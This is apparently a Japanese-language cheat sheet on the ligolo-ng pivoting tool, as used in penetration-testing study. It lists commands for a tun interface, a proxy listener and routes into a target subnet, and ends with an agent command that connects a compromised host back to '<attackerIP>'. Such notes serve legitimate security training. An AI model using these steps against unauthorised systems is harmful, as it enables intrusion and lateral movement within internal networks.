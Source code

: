 # ligolo

[ligoloの使い方、参考ページ](https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2)

- agentとproxyというバイナリをそれぞれ/usr/bin/に置いたので、agentのバイナリをまずはターゲット上に置く必要がある。また、ターゲットOSによってバイナリを変える必要があるので、都度githubから引っ張ってくる必要がある。
  
[ソースはここから](https://github.com/nicocha30/ligolo-ng/releases)

## コマンド集

0. ダウンロードしてきたファイルを解凍する。
```
sudo tar -xzvf <target_file>
```

1. tunをセットする。
```
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

2. リバースプロキシを立ち上げる。ポーとは9001で待ち受けておく。
```
proxy -selfcert -laddr 0.0.0.0:9001
```

3. 利用できるインターフェースを一覧表示する。
```
session
ifconfig
```

4. 10.10.127.0/24サブネット宛ての全てのパケットを、ligolo tunインターフェースを介して送信するようにKali上で設定する。(これ自体はligoloのコマンドではなくKali上での設定)
```
sudo ip route add 10.10.127.0/24 dev ligolo
```
5. 上記までの手順を行った後に、セッションをスタートする。これでtargetサブネット上の内部ネットワークと、Kali上から直接やり取りができるようになる。
```
session
start
```

6. ローカルポートフォワーディングするための設定。実際にローカルポートフォワーディング設定してKaliから接続する際は、240.0.0.1:<targetのローカルポート>の形式で指定して通信する。
```
sudo ip route add 240.0.0.1/32 dev ligolo
```

### Agent側
1. 
```
./agent.exe -connect <attackerIP>:port -ignore-cert
```